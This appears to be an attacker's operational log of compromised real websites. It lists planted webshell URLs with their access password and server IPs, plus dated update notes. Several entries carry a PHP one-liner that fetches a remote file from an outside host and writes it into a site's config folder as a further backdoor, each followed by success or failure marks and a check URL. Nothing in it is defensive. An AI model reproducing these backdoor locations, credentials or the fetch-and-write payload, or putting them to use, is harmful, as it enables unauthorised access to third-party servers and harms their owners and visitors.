http://e.himin.com/static/upload/image/20220729/m22.php |mmk123 |  120.27.14.20


https://www.huaeda.com/template/default/images/m22.php |mmk123 |  121.42.118.20
代码更新：0608 ✅
https://www.huaeda.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.huaeda.com/config/httpd.php?d=up

https://www.gearbox-world.com/static/upload/image/20231024/m22.php |mmk123 |  150.109.70.87


http://www.sdpadq.com/static/upload/other/20231102/m22.php |mmk123 |  139.129.242.175 
http://xl.dzpc.net/template/default/wap/comm/m22.php |mmk123 |  47.96.84.204

http://www.tjclchem.com/static/upload/image/20221118/m22.php |mmk123 |  211.149.225.63
代码更新：0608  失败 500
http://www.tjclchem.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.tjclchem.com/config/httpd.php?d=up

http://www.xym08.com/dd.php |大马 |大马 | 124.223.225.9
http://1.iottry.com/dd.php |大马 |大马 | 101.200.91.63

http://wxnccl.com/static/upload/image/20231117/m22.php |mmk123 |  121.40.99.41
代码更新：0608 ✅
http://wxnccl.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://wxnccl.com/config/httpd.php?d=up

https://www.xscea.org.cn/static/upload/file/20220730/m22.php |mmk123 |  116.62.68.196
代码更新：0608   失败 403
https://www.xscea.org.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.xscea.org.cn/config/httpd.php?d=up

http://www.jsqrjsyxgs.com/static/upload/image/20220506/m22.php |mmk123 |  1.94.48.90
代码更新：0608 ✅
http://www.jsqrjsyxgs.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.jsqrjsyxgs.com/config/httpd.php?d=up

http://en.shanjiu.cn/static/upload/image/20230721/m22.php |mmk123 |  106.54.62.234
代码更新：0608 ✅
http://en.shanjiu.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://en.shanjiu.cn/config/httpd.php?d=up
